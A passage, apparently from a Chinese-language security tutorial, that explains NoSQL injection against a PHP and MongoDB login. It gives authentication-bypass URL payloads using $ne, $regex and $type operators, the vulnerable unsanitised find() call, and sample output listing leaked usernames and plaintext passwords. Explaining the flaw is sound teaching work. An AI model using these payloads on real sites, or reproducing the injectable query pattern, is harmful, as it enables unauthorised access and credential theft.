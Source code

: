 外界请求的参数应该为：

```
?login=admin&password[$ne]=1   

```

当使用正则$regex的时候，执行下列数据库语句，将会返回name中所有已y开头的数据

```
db.items.find({name: {$regex: "^y"}})  

```

如果请求数据的脚本换为：

```
$cursor1 = $collection->find(array("login" => $user, "pass" => $pass));

```

返回结果的数据为：

```
echo 'id: '. $obj2['id'] .'<br>login: '. $obj2['login'] .'<br>pass: '. $obj2['pass'] . '<br>'; 

```

如果想要返回所有数据的话，可以访问下面的url：

```
?login[$regex]=^&password[$regex]=^ 

```

返回结果将会是：

```
id: 1
login: Admin
pass: parol
id: 4
login: user2
pass: godloveman
id: 5
login: user3
pass: thepolice=

```

还有一种利用$type的方式：

```
?login[$not][$type]=1&password[$not][$type]=1 

```

官方这里有详细介绍$type的各个值代表的意思：

[http://cn.docs.mongodb.org/manual/reference/operator/query/type/](http://cn.docs.mongodb.org/manual/reference/operator/query/type/)
